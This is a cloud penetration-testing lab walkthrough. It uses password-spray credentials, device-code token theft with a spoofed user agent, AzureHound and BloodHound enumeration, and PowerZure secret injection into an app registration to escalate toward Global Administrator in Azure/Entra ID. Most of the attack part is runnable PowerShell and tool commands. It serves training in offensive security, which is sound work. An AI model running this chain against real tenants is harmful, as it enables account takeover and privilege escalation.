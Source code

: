 


### Task 1 - Enumerate the environment using AzureHound and a user with reader permissions

1. Review the credentials that we will use for this exercise. Run the command below to print the information in the file `Lab04-Info.txt` to the console. 
```
Get-Content "$HOME\Desktop\ExerciseFiles\Modules\04\Lab04-Info.txt" 
```

2. Authenticate to Azure PowerShell using the credentials. Replace the placeholders with the actual values from the exercise file.
```
$username = "USERNAME"
$password = "PASSWORD" | ConvertTo-SecureString -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential($username, $password)

Connect-AzAccount -Credential $cred
```

3. Copy the code from the PowerShell window and paste it into the PowerShell console. 
* This initiates a device code authentication flow.
* Follow the instruction by going to https://microsoft.com/devicelogin, pasting the code from the shell, and authenticating with the first user from your password spray result.
```
$body = @{
    "client_id" =     "1950a258-227b-4e31-a9cf-717495945fc2"
    "resource" =      "https://graph.microsoft.com"
}
$UserAgent = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36"
$Headers=@{}
$Headers["User-Agent"] = $UserAgent
$authResponse = Invoke-RestMethod `
    -UseBasicParsing `
    -Method Post `
    -Uri "https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0" `
    -Headers $Headers `
    -Body $body
$authResponse
```

4. Copy the code below and paste into the PowerShell console to retrieve the tokens and store them in a variable.
```
$body=@{
    "client_id" =  "1950a258-227b-4e31-a9cf-717495945fc2"
    "grant_type" = "urn:ietf:params:oauth:grant-type:device_code"
    "code" =       $authResponse.device_code
}
$Tokens = Invoke-RestMethod `
    -UseBasicParsing `
    -Method Post `
    -Uri "https://login.microsoftonline.com/Common/oauth2/token?api-version=1.0" `
    -Headers $Headers `
    -Body $body
$Tokens
```

5. Run the command below to remove any space in the token.
```
$cleanToken = $tokens.refresh_token -replace ' ', ''
$context = Get-AzContext
$tenantId = $context.Tenant.Id
```

6. Run the command below to use AzureHound to enumerate the tenant using the refresh token.
* **`-r`**: refresh token
* **`--tenant`**: tenant ID
* **`-v`**: verbosity level (2 is the highest)
* **`-o`**: output file
```
cd "$env:SystemDrive\PentestTools\Azure\Attack\AzureHound"
./azurehound -r "$cleanToken" list --tenant "$tenantId" -v 2 -o azurehound-output-1.json
```

7. Log out as the reader user in Azure PowerShell.
```
Disconnect-AzAccount
```

### Task 2 - Import the data into BloodHound
1. Open a browser on your pentest VM, navigate to https://localhost:8080 and sign in (the credentials are already saved in the browser)
* In the top right corner, click on the settings icon ⚙️ → Administration
* From the left menu under Data Collection, select **`File Ingest`**
* Click the button UPLOAD FILE(S)
* Either drag-drop the `azurehound-output-1.json` that was generated in the previous step or click the upload window and select it from file explorer
* Click on Upload twice to confirm the upload, then click on CLOSE.


### Task 3 - Explore an attack paths for the first user
1. Review the first user in your spray results list. You can explore that list using the following command:
```
Get-Content "$env:SystemDrive\PentestTools\Azure\Attack\MSOLSpray\sprayresults.txt"
```

2. Authenticate to Azure PowerShell as the credentials. Replace the placeholders **`USERNAME`** and **`PASSWORD`** with the actual values from the spray results text file.
```
# Extract the Tenant ID from the context
$currentContext = Get-AzContext
$tenantId = $currentContext.Tenant.Id

# Connect to Azure Cloud and Azure Active Directory
$username = "USERNAME"
$password = "PASSWORD" | ConvertTo-SecureString -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($username, $password)

Connect-AzAccount -Credential $cred
Connect-AzureAD -Credential $cred
```

3. In the BloodHound GUI, click on PATHFINDING and enter the following results, click on the user and then click on the **Paths** tab.
* **`Start Node`**: the first user in your spray results list
* **`End Node`**: Global Administrator

4. Step 1: the user → AZOwns → Cloud Pulse
* This means that the user is configured as an owner of the application Cloud Pulse
* We can confirm this in Azure Portal → Entra ID → Manage → App Registration → All Applications → Cloud Pulse → Manage → Owners
* This means the user can add a new secret to the application and then authenticate as the application. Let's do this using PowerZure.

```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Force

Import-Module "$env:SystemDrive\PentestTools\Azure\Attack\Powerzure\Powerzure.psd1"

Add-AzureADSPSecret -ApplicationName "CloudPulse"
```

5. This adds a new secret to the application. We can now authenticate as the application using the command provideds in the output of the previous command. Copy the commands and paste them into the PowerShell console. The commands should be similar to what we have below (but copy and paste the actual putput and not the one below).
```
$ApplicationId = "APP_ID"
$SecurePassword = "APP_SECRET"
$SecurePassword = ConvertTo-SecureString -String $SecurePassword -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $ApplicationId, $SecurePassword
Connect-AzAccount -Credential $Credential -Tenant "TENANT_ID" -ServicePrincipal
```

6. Step 2: CloudPulse@Default Directory → AZPrivilegedRoleAdmin → Default Directory
* This means that App has a privileged role assignment to the tenant and we can use this to escalate privileges E.g. Assign ourselves as a global admin.
* We can confirm this in Azure Portal → Entra ID → Manage → App Registration → All Applications → Cloud Pulse → Manage → Roles and administrators
* The Cloud Application Administrator role has permissions to add addional permissions to registered apps [https://learn.microsoft.com/en-us/entra/identity/role-based-access-control/permissions-reference#cloud-application-administrator](https://learn.microsoft.com/en-us/entra/identity/role-based-access-control/permissions-reference#cloud-application-administrator)


7. Review the attack paths and the abuses that exists for other users in your spray results list. 


### REFERENCES
* https://learn.microsoft.com/en-us/graph/permissions-reference#see-also
* https://learn.microsoft.com/en-us/powershell/microsoftgraph/tutorial-grant-app-only-api-permissions?view=graph-powershell-1.0
* https://learn.microsoft.com/en-us/graph/permissions-reference#userreadwriteall
* https://matthewdavis111.com/msgraph/azure-ad-permission-details/


